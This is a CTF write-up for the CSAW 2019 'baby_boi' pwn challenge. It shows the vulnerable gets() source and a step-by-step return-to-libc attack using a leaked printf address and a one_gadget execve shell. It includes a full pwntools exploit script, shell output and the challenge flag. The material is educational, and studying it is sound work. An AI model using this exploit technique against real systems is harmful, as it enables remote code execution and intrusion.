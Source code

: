 # baby_boi

Category: `pwn`

Description: `Welcome to pwn.`

Service: `nc pwn.chal.csaw.io 1005`

Points: `50`

**Files**
- [baby_boi](files/baby_boi)
- [libc-2.27.so](files/libc-2.27.so)
- [baby_boi.c](files/baby_boi.c)

### What It Does

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ file baby_boi
baby_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=e1ff55dce2efc89340b86a666bba5e7ff2b37f62, not stripped
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

The 64-bit binary prints the address `printf@libc` and reads user input, which can overflow the buffer.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

An example run:

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ ./baby_boi 
Hello!
Here I am: 0x7f275e291e80
123
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

### How to Solve

This is a return-to-libc buffer overflow attack.

First, we try to overflow the buffer and get the offset of the saved return address to gain `RIP` control. 

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ cyclic -n 8 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ valgrind ./baby_boi
==10757== Memcheck, a memory error detector
==10757== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.
==10757== Using Valgrind-3.13.0 and LibVEX; rerun with -h for copyright info
==10757== Command: ./baby_boi
==10757== 
Hello!
Here I am: 0x4ea0e80
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
==10757== Jump to the invalid address stated on the next line
==10757==    at 0x6161616161616166: ???
==10757==    by 0x6161616161616166: ???
==10757==    by 0x6161616161616167: ???
==10757==    by 0x6161616161616168: ???
==10757==    by 0x6161616161616169: ???
==10757==    by 0x616161616161616A: ???
==10757==    by 0x616161616161616B: ???
==10757==    by 0x6161616C: ???
==10757==    by 0x1FFEFFFE8F: ???
==10757==  Address 0x6161616161616166 is not stack'd, malloc'd or (recently) free'd
==10757== 
==10757== 
==10757== Process terminating with default action of signal 11 (SIGSEGV)
==10757==  Bad permissions for mapped region at address 0x6161616161616166
==10757==    at 0x6161616161616166: ???
==10757==    by 0x6161616161616166: ???
==10757==    by 0x6161616161616167: ???
==10757==    by 0x6161616161616168: ???
==10757==    by 0x6161616161616169: ???
==10757==    by 0x616161616161616A: ???
==10757==    by 0x616161616161616B: ???
==10757==    by 0x6161616C: ???
==10757==    by 0x1FFEFFFE8F: ???
==10757== 
==10757== HEAP SUMMARY:
==10757==     in use at exit: 0 bytes in 0 blocks
==10757==   total heap usage: 0 allocs, 0 frees, 0 bytes allocated
==10757== 
==10757== All heap blocks were freed -- no leaks are possible
==10757== 
==10757== For counts of detected and suppressed errors, rerun with: -v
==10757== ERROR SUMMARY: 1 errors from 1 contexts (suppressed: 0 from 0)
Segmentation fault (core dumped)
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ cyclic -n 8 -l 0x6161616161616166
40
```

The offset of the saved return address is at `40`.

Next, we get the offset of `printf@libc`.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ objdump -d libc-2.27.so | grep '<_IO_printf@@GLIBC_2.2.5>:'
0000000000064e80 <_IO_printf@@GLIBC_2.2.5>:
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

The offset of `printf@libc` is `0x64e80`. We can calculate the base libc address using the leaked address and offset of `printf@libc`.

Then, we get the offset of a gadget from libc that can give us a shell.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

We choose the second gadget of offset `0x4f322` because we can overflow the buffer such that the stack contains null bytes and fulfill the costraint. We can calculate the address of the `execve` gadget using the base libc address and the offset of the `execve` gadget.

To get a shell, we overflow the buffer and overwrite the saved return address to the address of the `execve` gadget.

```python
#!/bin/python

import pwn


PRINTF_OFFSET = 0x64e80
ONE_GADGET_OFFSET = 0x4f322  # [rsp+0x40] == NULL


def main():
    p = pwn.process("./baby_boi")
    # p = pwn.remote("pwn.chal.csaw.io", 1005)

    data = p.recvrepeat(0.2)

    while not data:
        data = p.recvrepeat(0.2)

    leak = data[data.find(": ")+2:data.rfind("\n")]

    pwn.log.info("Leaked printf() address: {printf_addr}".format(printf_addr=leak))

    printf_addr = int(leak, 16)
    libc_base = printf_addr - PRINTF_OFFSET
    one_gadget_addr = libc_base + ONE_GADGET_OFFSET

    payload = "A" * 40
    payload += pwn.p64(one_gadget_addr)
    payload = payload.ljust(150, "\x00")

    p.sendline(payload)
    p.interactive()


if __name__ == "__main__":
    main()
```

Check that the solution works for the binary.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ python baby_boi_soln.py [+] Starting local process './baby_boi': pid 9719
[*] Leaked printf() address: 0x7ffbc5dc0e80
[*] Switching to interactive mode
$ pwd
/home/ubuntu/ctf/2019/csaw_ctf_quals/pwn
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './baby_boi' stopped with exit code 0 (pid 9719)
[*] Got EOF while sending in interactive
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

Get the flag on the server.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ python baby_boi_soln.py [+] Opening connection to pwn.chal.csaw.io on port 1005: Done
[*] Leaked printf() address: 0x7fcd3e04ee80
[*] Switching to interactive mode
$ ls
baby_boi
flag.txt
$ cat flag.txt
flag{baby_boi_dodooo_doo_doo_dooo}
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to pwn.chal.csaw.io port 1005
[*] Got EOF while sending in interactive
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/pwn$ 
```

**Flag: `flag{baby_boi_dodooo_doo_doo_dooo}`**

**Files**
- [baby_boi_soln.py](files/baby_boi_soln.py)